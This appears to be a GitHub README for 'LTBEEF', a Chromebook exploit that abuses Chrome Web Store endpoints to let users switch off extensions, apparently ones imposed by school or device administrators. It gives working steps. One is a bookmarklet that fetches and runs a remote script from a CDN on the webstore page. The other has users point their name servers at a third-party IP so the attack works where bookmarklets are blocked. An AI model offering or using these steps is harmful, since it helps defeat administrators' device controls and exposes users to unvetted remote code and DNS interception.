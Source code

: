 # LTBEEF
#### Discovered by Bypassi#7037
#### DNS servers hosted by The Greatest Giant#0110
#### This exploit has been patched in later versions of 102, and 106+
LTBEEF is an exploit which abuses API endpoints within the Google Chrome webstore.  
 
There are several vesions of this exploit you can use, here are the 2 most common versions:

## BOOKMARKLETS
1. Bookmark the script below:    
```javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())```

2. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
3. Flip the switches on the extentions you want to disable. Simple!  
   
## DNS SERVERS
By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
1. Go to Settings > Network > Wifi > Network, and click on "Custom Name Servers"

![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  

2. Set every box there to the following ip:  
```158.101.114.159``` 
3. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a>
and click on the bookmark. 
4. Flip the switches on the extentions you want to disable. 
